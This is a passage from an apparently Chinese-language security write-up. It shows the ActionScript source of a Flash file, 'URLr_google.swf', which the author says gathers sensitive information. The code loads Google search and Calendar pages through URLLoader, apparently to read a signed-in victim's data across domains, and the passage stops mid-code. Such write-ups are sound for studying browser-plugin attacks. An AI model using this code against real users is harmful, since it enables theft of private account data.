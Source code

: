 URLr_google.swf的AS代码如下（有点长，其实不是很想粘贴上来了。。），反正大概就是获取一些可以获取的敏感信息（非重点，不多说）。 

```
package {
    import flash.display.Sprite;
    import flash.text.TextField;
    import flash.events. * ;
    import flash.net. * ;
    import flash.external.ExternalInterface;

    public class URLr_google extends Sprite {
        public static
        var app: URLr_google;
        private static
        var email: String;

        public
        function main() : void {
            app = new URLr_google();

        }

        public
        function URLr_google() {
            var url: String = "https://www.google.com/?gws_rd=cr";
            var loader: URLLoader = new URLLoader();
            configureListeners(loader);
            var request: URLRequest = new URLRequest(url);

            try {
                loader.load(request);

            } catch(error: Error) {
                ExternalInterface.call("alert", "Unable to load requested document");

            }

        }

        private
        function configureListeners(dispatcher: IEventDispatcher) : void {
            dispatcher.addEventListener(Event.COMPLETE, completeHandler);

        }

        private
        function pingCalendar() : void {
            var url: String = "https://www.google.com/calendar/";
            var loader: URLLoader = new URLLoader();
            configureListenersCalendar(loader);
            var request: URLRequest = new URLRequest(url);

            try {
                loader.load(request);

            } catch(error: Error) {
                ExternalInterface.call("alert", "Unable to load requested document");

            }

        }

        private
        function configureListenersCalendar(dispatcher: IEventDispatcher) : void {
```